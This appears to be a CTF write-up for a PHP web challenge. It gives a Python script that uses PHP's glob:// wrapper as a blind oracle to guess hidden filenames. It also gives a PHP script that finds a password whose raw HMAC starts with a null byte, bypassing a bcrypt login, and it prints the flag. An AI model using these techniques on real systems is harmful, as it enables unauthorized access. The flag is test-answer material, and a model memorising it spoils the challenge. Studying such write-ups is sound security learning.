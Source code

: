 
# Ways of php

![image](https://user-images.githubusercontent.com/80924519/172225669-8a3bc7fa-1506-4d9b-8ae6-53208a69d842.png)

## Challenge

Lets visit the url:

![image](https://user-images.githubusercontent.com/80924519/172225767-431654e6-6dea-41e5-901e-c7e77bcd4efa.png)

We get the source code of the page itself:

```php
 <?php
    if (isset($_REQUEST['f'])) {
        $c = $_REQUEST['f'];
        try {
        foreach (new DirectoryIterator($c) as $f) echo $f->getSize() . '\r';
        } catch (Exception $e) {
            include 'A4UqCitMd2.html';
        }
        exit;
    }
?> 
```

So what it basically does is, it checks if the parameter `f` is set. If its set it calls the [DirectoryIterator]([https://www.php.net/manual/en/class.directoryiterator.php](https://www.php.net/manual/en/directoryiterator.getsize.php)) with getSize:

```
Get size of current DirectoryIterator item 
```

If there is an error it will return the html file(the homepage).

So what it does is, it checks the size of files in a given directory we specify in the parameter as example:

```
http://159.65.232.9:42068/?f=/var/www/html
```

We get:

![image](https://user-images.githubusercontent.com/80924519/172227422-facba3db-3f21-45b9-82d1-69519786d2e8.png)


This are all file sizes in the `/var/www/html` directory. 

So how can we abuse this to get the flag?

## Exploit

So php does have a thing called [`glob://`](https://www.php.net/manual/en/wrappers.glob): 
```
glob:// — Find pathnames matching pattern
```

So we can now use something like:

```
http://159.65.232.9:42068/?f=glob://*.html
```

![image](https://user-images.githubusercontent.com/80924519/172227967-9d95a56b-563a-480f-8928-c8e7e85adfd7.png)


It will show all html file sizes in the current directory where the homepage lives.
So now if we try something like:

```
http://159.65.232.9:42068/?f=glob://1*.html
```

We dont get anything, so only if its true(in this case if there is a filename starting with 1, but there isnt) it will return.
So what we can do here is, do a blind attack to retrieve filenames. So we get the sizes. So to retrieve we use the sizes, when its there it means the letter we specify in the url is correct and a letter from the filename. I created this script:

```py
#!/usr/bin/env python3

import requests
import string 

chars = string.ascii_letters + string.digits

filename = ''
while True:
        for i in chars:
                r = requests.get(f'http://159.65.232.9:42068/?f=glob://{filename + i}*.html')
                print(r.url)
                if "785" in r.text:
                        print("Got correct char")
                        print(i)
                        filename += i
                else:
                        continue

print("The filename is: ", filename)
```
So after we run, we get the filename(it will run and wont stop, script can be improved(I am lazy)). So then we can visit the files we retrieve:

![image](https://user-images.githubusercontent.com/80924519/172230646-4ea2325d-7b04-44e6-94ed-897c1c8ed565.png)

So if we visit: 
```
http://159.65.232.9:42068/A4UqCitMd2.html
```
We get the error page:

![image](https://user-images.githubusercontent.com/80924519/172230739-1f7578e2-b98f-48b3-bcbe-7d7bf1f39535.png)


So now we can retrieve all files, there are some dummy files. The interesting files are:

```
WzNsbej4VS.php
```

It will show a login page:

![image](https://user-images.githubusercontent.com/80924519/172231029-34464367-eae6-4745-b631-67fb211131d9.png)

and the other file:

```
qHkldgoTQ4.tar
```

Lets untar it, we get a login.php file. Source code of the login page. I will only show the interesting part:

```php
<?php 

    $FLAG = 'REDACTED';
    $rp = 'REDACTED';
    $key = 'REDACTED';
    $hash_function = "sha256";

    if (isset($_POST['u']) && isset($_POST['p'])){
        if (md5($_POST['u']) === '21232f297a57a5a743894a0e4a801fc3'){
            $hash = password_hash(hash_hmac("sha256", $rp, $key, true), PASSWORD_BCRYPT);

            if(password_verify(hash_hmac("sha256", $_POST['p'], $key, true), $hash)){
                print $FLAG;
                exit;
            }
        }
        $msg = 'Incorrect!';
    }
?>
```

So now we have the login page and source, lets check how we can exploit this. We know we cant bruteforce because of the delay of 15 seconds(actually we can, but will take some time to run). So in the source we can see, it checks if `u` and `p` is set. So refering to username and password.
If the username hash equals to md5(admin) it will proceed otherwise it will tell incorrect. It will then create a variable called $hash with the `password_hash` function. Its using BCRYPT. Then it will hash our input in the password field and check if its equal. If its equal we will get the flag.

So I searched for weaknesses in `password_verify` and `password_hash`.
When googling: `password_hash php ctf` I found https://blog.pdgn.co/ctf/2016/10/02/tumctf-web300-writeup.html.
Its telling us:

```
Since “raw mode” is used, PHP does not hex-encode the output of the hash function when calling hash(), and so if a null byte is in data passed into password_hash, it’s incredibly easy to break. There’s a great article on this at ircmaxell’s blog that explains this vulnerability much better than I can.
```

So it if our input after hashing contains a null byte it will break/ignore the rest and let us login. So we can check the blog he shared:
https://blog.ircmaxell.com/2015/03/security-issue-combining-bcrypt-with.html

![image](https://user-images.githubusercontent.com/80924519/172233256-f2f12f0b-95fe-4c42-b7b3-32d5a557d0bb.png)

So because they set the parameter `true`, it accepts raw output so also null bytes. So lets copy his script and change the important parts. The key `GamingChair` was given in the discord server:

```php
<?php

$key = "GamingChair";
$hash_function = "sha256";
$i = 0;
$found = [];

while (count($found) < 1) {
    $pw = str_repeat($i, 5);
    $hash = hash_hmac($hash_function, $pw, $key, true);
    if ($hash[0] === "\0") {
        $found[] = $pw;
    }
    $i++;
}

var_dump($i, $found);

?>
```

So what this script does is its looping 1 time, it will create a variable `pw` with 5 times a number(00000, 11111 etc..). It will then create a hash with the given key and `pw`(data). It will then check if the first char of the hashed value equals a null byte, if yes it will add it to the array `found`. It will then dump the array and the index(`$i`). So lets run it:

![image](https://user-images.githubusercontent.com/80924519/172234752-e599e501-296c-438c-9b32-339f95304264.png)

We can now login with the credentials: 
`admin:562562562562562`

If we do that, we get the flag:

![image](https://user-images.githubusercontent.com/80924519/172234925-eb12f0d2-7916-45a1-88a8-4a9e34db5370.png)

`n00bz{D0nt_c0mb1n3_wh4t5_n0t_m34nt_t0_b3_c0mb1n3d}`

It was a nice cool challenge created by GamingChair. 



